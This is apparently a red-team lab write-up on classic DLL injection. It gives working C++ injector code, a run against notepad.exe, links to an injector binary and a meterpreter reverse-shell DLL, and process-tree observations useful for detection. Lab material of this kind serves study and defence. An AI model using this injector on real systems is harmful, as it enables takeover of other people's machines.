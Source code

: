 ```yaml
---
description: Injecting DLL into a remote process.
---
```


# DLL Injection

This lab attempts a classic DLL injection into a remote process.

## Execution

{% code title="inject-dll.cpp" %}
```cpp
int main(int argc, char *argv[]) {
	HANDLE processHandle;
	PVOID remoteBuffer;
	wchar_t dllPath[] = TEXT("C:\\experiments\\evilm64.dll");
	
	printf("Injecting DLL to PID: %i\n", atoi(argv[1]));
	processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
	remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof dllPath, MEM_COMMIT, PAGE_READWRITE);	
	WriteProcessMemory(processHandle, remoteBuffer, (LPVOID)dllPath, sizeof dllPath, NULL);
	PTHREAD_START_ROUTINE threatStartRoutineAddress = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryW");
	CreateRemoteThread(processHandle, NULL, 0, threatStartRoutineAddress, remoteBuffer, 0, NULL);
	CloseHandle(processHandle); 
	
	return 0;
}
```
{% endcode %}

Compiling the above code and executing it with a supplied argument of `4892` which is a PID of the notepad.exe process on the victim system:

{% code title="attacker@victim" %}
```csharp
PS C:\experiments\inject1\x64\Debug> .\inject1.exe 4892
Injecting DLL to PID: 4892
```
{% endcode %}

After the DLL is successfully injected, the attacker receives a meterpreter session from the injected process and its privileges:

![](../../.gitbook/assets/inject-dll-shell.png)

{% file src="../../.gitbook/assets/inject1.exe" caption="DLL injector.exe" %}

{% file src="../../.gitbook/assets/evilm64.dll" caption="c:\\experiments\\evilm64.dll \(windows/x64/meterpreter/reverse\_tcp\)" %}

## Observations

Note how the notepad spawned rundll32 which then spawned a cmd.exe because of the meterpreter payload \(and attacker's `shell` command\) that got executed as part of the injected evilm64.dll into the notepad process:

![](../../.gitbook/assets/inject-dll.png)

![](../../.gitbook/assets/inject-dll-procmon.png)

## References

{% embed url="https://msdn.microsoft.com/en-us/library/windows/desktop/ms683212\(v=vs.85\).aspx" %}

{% embed url="https://msdn.microsoft.com/en-us/library/windows/desktop/ms684175\(v=vs.85\).aspx" %}



